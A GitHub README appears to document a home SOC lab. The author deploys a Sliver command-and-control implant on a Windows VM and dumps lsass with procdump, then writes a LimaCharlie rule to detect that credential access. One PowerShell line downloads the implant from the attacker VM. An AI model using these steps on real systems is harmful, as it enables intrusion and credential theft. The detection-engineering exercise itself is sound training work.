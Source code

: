 # SOC-Analyst

## Set up VMs environment
- I set up 2 VMs, one is Ubuntu Server 22.04, the other is Windows 10 Desktop
- After setting up completely, I install sysmon in Windows 10 VM by this following Powershell script steps
1. Download Sysmon
```powershell
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
2. Unzip Sysmon.zip
```powershell
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
## Start to attack
- I use LimaCharlie (a SecOps cloud platform)
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/bdce3c63-38eb-42a6-81f6-626cfc5138e1)
- Follow these steps, and I reach this. It successfully creates the sensor
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/a9985c93-978d-4c3a-83d8-5d23d9e3f49b)
- Add rules to LimaCharlie
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/c60a1a58-90f5-49e8-9fc8-57e6c32b2feb)
- Use Sliver to perform Command and Control 
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/ed2188db-ed14-4deb-ba1e-04fbe77b4733)
- Download Command and Control file to Windows by this command
```powershell
IWR -Uri http://192.168.159.100/NORMAL_PUDDING.exe -Outfile C:\Users\hoang\Downloads\NORMAL_PUDDING.exe
```
- After running C2 on Windows VM, on Ubuntu Server, I see this
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/33fc3013-56ff-4faf-8156-b509c7033f27)
- Perform RCE
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/6335a1a3-c0a5-4ee5-aa38-a7144931a26d)
- Use ```getprivs``` to see our priviledge in victim, at here, we can see **SeDebugPriviledge** is enabled
![Screenshot 2024-04-21 215813](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/7d000552-743a-4aa6-802e-d14cb519e869)


## Observe and analyse 
- As we can see here, the C2 payload is malicious processes, so they are not signed and they are active on network
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/f34352b8-d9c6-4f33-a0d8-13837a7796bf)
- In the network tab, we can see the C2 payload NORMAL_PUDDING is established
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/e07f3d9a-3a6d-4aa1-aa01-064be6df2920)
- In the file system tab, we can inspect the malicious file on VirusTotal
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/42e58ff3-2bde-47f2-94b6-5e2960a68315)

## Detect malicious processes
- **lsass.exe** is a sensitive process, and it is often targeted by dumping tools. So, many EDR will generate events for it.
- We can find it through Timeline tabs and filtered by SENSITIVE...You can see its paths to lsass.exe
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/c06192be-cddc-4e04-a19a-4026803b5d31)
- Now, I have understood about its structure (leads to lsass.exe), so I will write rules to detect any processes lead to lsass.exe. Here is my rule
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/1574783d-1c6e-4fb1-a67e-284e8dbb7942)
> The rule above only detects process that ends with lsass.exe
- In the respond section, I write like this<br>
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/6c3a9a12-0cc3-4240-b743-675393bdff8f)
> We’re telling LimaCharlie to simply generate a detection “report” anytime this detection occurs.
- When I click Test Event, I can see the respond saying that it successfully detect it.
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/4a0f51b7-e469-4f2d-a227-e85c93556df1)
- Save the rule<br>
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/ef1715b8-38f8-4ff5-b371-696b7824bb59)
- I go to Linux VM and run ```procdump``` again.
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/c58e9a16-d26f-4012-9f1a-98810cc506cd)
- In the detection section of LimaCharlie, I see this alert
![Screenshot 2024-04-21 224004](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/3ee2f60c-af41-44c5-9bd0-c510c506c176)
- **I have successfully created rule and detected a malicious process**



















